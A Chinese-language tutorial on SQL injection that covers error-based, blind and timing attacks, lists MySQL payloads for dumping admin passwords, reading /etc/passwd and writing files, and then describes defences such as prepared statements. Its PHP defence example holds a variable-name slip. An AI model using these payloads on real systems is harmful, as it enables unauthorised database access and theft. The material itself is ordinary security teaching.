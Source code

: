 # SQL Injection

## 简介

SQL Injection，即SQL注入，是指攻击者利用服务端对用户输入处理的漏洞，输入一些SQL代码，通过闭合引号等手段使服务器将其作为SQL语句而执行，从而造成攻击者对目标数据库的非授权访问，可能产生数据泄露、损毁、篡改等。

## 姿势

### 错误回显注入

如果Web服务器开启了错误回显，通过对输入内容的报错回显可以推理SQL逻辑从而很容易构造Payload。

### 盲注

多数时候Web服务器并不会提供错误的回显，这时候我们需要借用盲注的技巧。

在盲注的情况下，攻击者需要一种手段来确认输入的Payload所产生的影响，而观察页面的变化是最常用的参照，比如以下Payload：

```js
业务URL：http://example.com/news.php?id=10
SQL逻辑：SELECT title, description, body FROM news WHERE id = 10

攻击Payload: ?id=10 and 1=2，造成查询为空，页面可能为空
```

当然以上Payload显示的页面异常也有可能是服务端检测到了非法Payload而做了处理的结果，所以确认注入点还需要后面的步骤。

```js
?id = 10 and 1=1返回页面正常说明确实有问题。
```

### Timing Attack

通过注入一些执行起来花费时间的SQL语句，观察Web请求的响应时间变化也可以判断是否存在SQL注入漏洞。

常用的函数：

MySQL：

```
benchmark(times,function)，benchmark某个函数function times次数
如benchmark(1000000, encode('hello','goodbye'))
sleep(seconds)，休眠seconds秒。
```

举例一个Payload：

```
10 union select if(substring(current,1,1)=char(119),benchmark(5000000,md5(1)) from (select database() as current) as tbl;
```

## 数据库攻击技巧

### 便利函数

database\(\) - 返回当前数据库名。

system\_user\(\) - 返回数据库的系统用户。

current\_user\(\) - 返回当前用户身份。

version\(\) - 数据库版本号。

### 常见技巧

猜解数据库版本：?id = 5 and substring\(@@version,1,1\)=4

判断表是否存在：?id = 5 union all select 1,2,3 from 表名

判断表中某列是否存在：?id = 5 union all select 1,2,列名 from 某表

具体猜解列中数据：?id = 5 and ascii\(substring\(\(select passwd from admin limit 0,1\),1,1\)&gt;64\) **二分法**

读取文件：?id = 5 union select 1,2,load\_file\('/etc/passwd'\) **需要读权限**

写文件：?id = 5 union select ... into outfile '/file' 或者 into dumpfile 'file'，dumpfile相比outfile更适合二进制文件。

### 攻击存储过程

### 编码利用

当数据库使用宽字节编码时，Web语言可能考虑不到，会将双字节字符认为是两个字符，而多数情况下为了安全起见，会开启`magic_quotes_gpc`或者使用`addslashes()`函数对特殊字符进行转义，比如单引号和双引号。

### 流程

### 防御

#### 使用预编译语句

预编译语句事实上是对变量的一种绑定，举例Java中的预编译：

```java
String custname = request.getParameter("customerName"); // 这里的custname需要好好被检查
// custname的检查
String query = "SELECT account_balance FROM user_data WHERE username = ?";

PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1,custname);
ResultSet results = pstmt.executeQuery();
```

在`query`中，我们利用`?`替代查询参数，使得攻击者无法改变SQL逻辑，即便是插入了`abc' or '1'='1`尝试闭合引号也只会被当做username的参数执行。再举一个PHP的例子：

```php
$query = "INSERT INTO myCity (Name, CountryCode, District) VALUES (?,?,?)";
$stmt = $mysqli->prepare($qeury);
$stmt->bind_param("sss",$var1,$var2,$var3);
$val1 = 'var1';
$val2 = 'var2';
$val3 = 'var3';
$stmt->execute();
```

通过对输入变量与查询参数的绑定，将特定的输入限制在参数内，不会使得SQL语义产生变化。

#### 使用存储过程

Java中使用存储过程的例子：

```java
String custname = request.getParameter("customerName"); // check please
try{
    CallableStatement cs = connection.prepareCall("{call sp_getAccountBalance(?)}");
    cs.setString(1, custname);
    ResultSet results = cs.executeQuery();
} catch (SQLException se) {
    // log error
}
```

对比预编译语句的使用发现有些类似，不过这里需要预先定义存储过程`sp_getAccountBalance(?)`，然后使用`call`调用存储过程，在进行变量绑定。不过我们还是需要避免在存储过程中使用动态SQL语句，否则也有可能出现SQL注入。

#### 检查数据类型

很多时候SQL查询需要的只是一个数字型的id，所以我们可以通过限制数据类型过滤掉大部分攻击。

#### 使用安全的函数

各种Web语言都会实现一些编码函数，帮助对抗有可能出现的攻击，比如`addslashes()`，`mysql_real_escape_string()`以及`mysql_escape_string()`等等。中间函数考虑到数据库连接的编码，因此相比其他两种比较不可能出现款字节注入漏洞。基本上就是对特殊字符利用反斜杠转义处理。


